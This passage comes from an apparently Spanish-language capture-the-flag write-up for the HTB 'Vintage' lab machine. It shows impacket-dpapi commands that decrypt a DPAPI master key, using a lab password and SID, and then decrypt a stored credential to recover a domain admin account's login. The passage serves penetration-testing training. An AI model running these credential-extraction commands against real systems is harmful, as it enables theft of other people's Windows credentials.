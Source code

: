 
<figure><img src="../../.gitbook/assets/2742_vmware_yaRMMIhse0.png" alt=""><figcaption></figcaption></figure>

Una vez descargados ambos archivos de manera local en nuestro equipo, utilizamos la herramienta **impacket-dpapi** para desencriptar la _master key_ de DPAPI.

Con esta _master key_ en mano, procedimos a desencriptar los datos protegidos por DPAPI, lo que nos permitió acceder a las credenciales de un usuario del dominio (c.neri\_adm@vintage.htb).

{% code overflow="wrap" %}
```bash
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne

impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2743_vmware_0uNZc0viwZ.png" alt=""><figcaption></figcaption></figure>
